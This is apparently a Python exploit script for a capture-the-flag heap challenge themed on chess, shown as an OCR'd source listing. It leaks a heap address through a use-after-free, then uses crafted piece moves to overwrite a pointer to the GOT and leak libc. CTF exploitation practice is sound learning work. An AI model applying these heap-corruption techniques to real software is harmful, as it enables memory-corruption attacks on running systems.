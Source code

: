 ```python
global mov_count
global even

if __name__ == "__main__":
    mov_count = 0
    even = True
    add(0)
    add(1)
    add(2)
    add(3)
    add(4)
    free(1)
    free(0)
    view(0)
    rl()
    rl()
    leak = rl()[2:].replace("\n","")
    assert len(leak) == 3
    heap = uu64(leak) - 0x1350
    log.info("Heap -> "+hex(heap))

    move_y(2, 7, 19, 7) #rook -> (19, 7)
    move(2, 6, 7, 7, 5) #knight -> (7, 5)
    move(2, 6, 6, 6, 5) #pawn -> (6, 5)
    move(2, 5, 7, 6, 6) #bishop -> (6, 6)

    #Move king
    move(2, 4, 6, 4, 5)
    move(2, 3, 7, 4, 6) 
    move(2, 4, 6, 5, 7)

    move_y(2, 5, 18, 7) #king -> (18, 7)

    #Pawn clear
    move(2, 5, 6, 5, 5)
    move(2, 3, 6, 3, 5)
    move(2, 2, 6, 2, 5)
    move(2, 1, 6, 1, 5)
    move(2, 0, 6, 0, 5)

    #Move rook
    move(2, 0, 7, 0, 6)
    move(2, 0, 6, 5, 6)
    move(2, 5, 6, 5, 7)
    move_y(2, 5, 17, 7) #rook -> (17, 7)


    #Overwrite pointer to GOT
    while mov_count < 0x3f:
        move_bishop(2)
    smite(2, 18, 7)
    
    move_bishop(2)
    smite(2, 19, 7)
    while mov_count < 0x98:
        move_bishop(2)
    smite(2, 17, 7)

    view(3)
    rl()
    rl()
    libc.address = uu64(rl()[2:].replace("\n","")) - libc.symbols['free']
    log.info("Libc -> "+hex(libc.address))
```